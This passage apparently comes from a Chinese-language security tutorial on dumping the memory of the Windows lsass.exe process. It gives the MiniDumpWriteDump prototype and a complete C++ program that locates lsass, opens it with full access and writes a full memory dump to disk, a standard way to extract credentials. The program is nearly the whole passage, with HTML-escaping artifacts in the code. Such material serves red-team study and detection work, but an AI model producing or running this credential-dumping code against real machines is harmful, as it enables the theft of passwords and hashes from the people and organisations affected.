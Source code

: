 该函数的定义如下:

```
BOOL MiniDumpWriteDump(
  HANDLE                            hProcess,
  DWORD                             ProcessId,
  HANDLE                            hFile,
  MINIDUMP_TYPE                     DumpType,
  PMINIDUMP_EXCEPTION_INFORMATION   ExceptionParam,
  PMINIDUMP_USER_STREAM_INFORMATION UserStreamParam,
  PMINIDUMP_CALLBACK_INFORMATION    CallbackParam
);
```

因此我们需要得到`lsass.exe`的进程句柄，并且还要创建一个可写文件用于`outfile`参数的写入:

```
#include &lt;windows.h&gt;
#include &lt;DbgHelp.h&gt;
#include &lt;iostream&gt;
#include &lt;TlHelp32.h&gt;
//链接
#pragma comment( lib, "Dbghelp.lib" )
using namespace std;

int main() `{`
    DWORD lsassPID = 0;
    HANDLE lsassHandle = NULL;
    HANDLE outFile = CreateFile(L"lsass.dmp", GENERIC_ALL, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 processEntry = `{``}`;
    processEntry.dwSize = sizeof(PROCESSENTRY32);
    LPCWSTR processName = L"";
    //遍历lsass.exe 的PID
    if (Process32First(snapshot, &amp;processEntry)) `{`
        while (_wcsicmp(processName, L"lsass.exe") != 0) `{`
            Process32Next(snapshot, &amp;processEntry);
            processName = processEntry.szExeFile;
            lsassPID = processEntry.th32ProcessID;
        `}`
        wcout &lt;&lt; "[+] Got lsass.exe PID: " &lt;&lt; lsassPID &lt;&lt; endl;
    `}`
    //调用MiniDumpWriteDump
    lsassHandle = OpenProcess(PROCESS_ALL_ACCESS, 0, lsassPID);
    BOOL isDumped = MiniDumpWriteDump(lsassHandle, lsassPID, outFile, MiniDumpWithFullMemory, NULL, NULL, NULL);

    if (isDumped) `{`
        cout &lt;&lt; "[+] lsass dumped successfully!" &lt;&lt; endl;
    `}`
    return 0;
`}`
```
